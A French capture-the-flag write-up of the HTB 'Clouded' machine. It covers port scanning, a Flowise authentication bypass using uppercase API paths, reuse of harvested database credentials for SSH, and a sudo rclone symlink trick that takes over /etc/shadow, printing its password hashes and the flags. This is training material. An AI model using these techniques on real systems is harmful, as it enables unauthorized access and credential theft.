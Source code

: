 ```yaml
---
title: HTB University CTF 2024 Binary Badlands - Clouded
date: 2024-12-13
tags: 
- web
- privesc
category: 
- ctf
- fullpwn
---
```


# Découverte du challenge

Sur l'ip, nmap retourne deux services: ssh et http.

```bash
[Dec 13, 2024 - 20:06:56 (CET)] exegol-leonardo /workspace # export TARGET="10.129.200.57"
[Dec 13, 2024 - 20:06:59 (CET)] exegol-leonardo /workspace # nmap -Pn -T5 $TARGET     
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-13 20:07 CET
Nmap scan report for 10.129.200.57
Host is up (0.030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.43 seconds
```

On trouve un site web: http://clouded.htb/, qui permet d'upload un fichier (pdf, png, jpg, docx).
Une fois le fichier upload, le site nous génère un lien pour pouvoir télécharger l'image sur un sous domain : local.clouded.htb

Ce sous domain semble être un bucket s3
```
› curl -sS -D - http://local.clouded.htb/uploads/file_LARMTP8CvI.png -o /dev/null
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 13 Dec 2024 19:24:02 GMT
Content-Type: binary/octet-stream
Content-Length: 32608
Connection: keep-alive
Content-Md5: w+1UNE20HL0Ug8DBSVAAPA==
ETag: "c3ed54344db41cbd1483c0c14950003c"
last-modified: Fri, 13 Dec 2024 19:21:31 GMT
x-amzn-requestid: CP3JZ915AUJ2K035RSS9JQP3ZH5TFY5521QRLSOCNWKDEUIHUEGZ
Access-Control-Allow-Origin: *
x-amz-request-id: 222EA63B5CF901E9
x-amz-id-2: MzRISOwyjmnup222EA63B5CF901E97/JypPGXLh0OVFGcJaaO3KW/hRAqKOpIEEp
accept-ranges: bytes
content-language: en-US
Access-Control-Allow-Methods: HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH
Access-Control-Allow-Headers: authorization,cache-control,content-length,content-md5,content-type,etag,location,x-amz-acl,x-amz-content-sha256,x-amz-date,x-amz-request-id,x-amz-security-token,x-amz-tagging,x-amz-target,x-amz-user-agent,x-amz-version-id,x-amzn-requestid,x-localstack-target,amz-sdk-invocation-id,amz-sdk-request
Access-Control-Expose-Headers: etag,x-amz-version-id
```

# Bypasser l'authentification (CVE-2024-31621) 

https://www.exploit-db.com/exploits/52001
```
The flowise version <= 1.6.5 is vulnerable to authentication bypass
vulnerability.
The code snippet

this.app.use((req, res, next) => {
>                 if (req.url.includes('/api/v1/')) {
>                     whitelistURLs.some((url) => req.url.includes(url)) ?
> next() : basicAuthMiddleware(req, res, next)
>                 } else next()
>             })


puts authentication middleware for all the endpoints with path /api/v1
except a few whitelisted endpoints. But the code does check for the case
sensitivity hence only checks for lowercase /api/v1 . Anyone modifying the
endpoints to uppercase like /API/V1 can bypass the authentication.
```

En utilisant cette vulnérabilité, on peut se connecter sur l'instance.
Dans la partie "Credentials", on retrouve les identifiants utilisée pour se connecter à la base de donnée du serveur. 

```
mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority
```
On essaie de se connecter à la machine via ssh sur l'utilisateur lewis et le mot de passe C0mpl3xi3Ty!_W1n3, et ça passe! 

# Privilege escalation (CVE-2024-52522)
En listant les doits de l'utilisateur lewis, on peut voir que : 
```
$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```
On peut utiliser la commande /usr/bin/rclone en tant qu'utilisateur.

Ce programme importe une vulnérabilité modifiant permettant d'avoir une lecture arbitraire sur le fichier/répertoire de notre choix.

Typiquement, voici un test pour vérifier que la vuln fonctionne : 
```
lewis@apolo:~$ ln -s /etc/shadow /home/lewis/shadow
lewis@apolo:~$ sudo rclone copy /home/lewis/ /tmp/home_new --links --metadata --log-level=DEBUG
lewis@apolo:~$ ls -la /etc/shadow
-rwxrwxrwx 1 lewis lewis 1214 Dec  4 13:10 /etc/shadow
```

On peut voir que le fichier /etc/shadow appartient maintenant à notre utilisateur ! 
Ce qui nous permet de lire le fichier
```
lewis@apolo:~$ cat /etc/shadow
root:$6$tXGOWajYaarOSaBl$3ERntPuO48c8RpGIPf/qrfLqezppfW/t0wqRTpzjmaBLYLVWBj.TrLkgJdVKdQeh2cjoBwQ6dVU98ckLQgCCG0:20024:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
sshd:*:18389:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18822:0:99999:7:::
lewis:$6$BtGmTbbtNVkg/W2N$nLwk34e22.8xnscxEV2IfL0SD1xvuwWaVlAaQBGOWk2cGA9dfUpzXhONLr5wu8mGuzRX2ZEPm1NFuPeni4K9r1:20024:0:99999:7:::
fwupd-refresh:*:20041:0:99999:7:::
_laurel:!:20061::::::
``` 

De la même manière, on peut faire un lien symbolique avec /root pour obtenir les droits sur ce répertoire

# Résultat
```
lewis@apolo:~$ cat /root/root.txt 
HTB{cl0n3_rc3_f1l3}
lewis@apolo:~$ cat user.txt 
HTB{llm_ex9l01t_4_RC3}
```

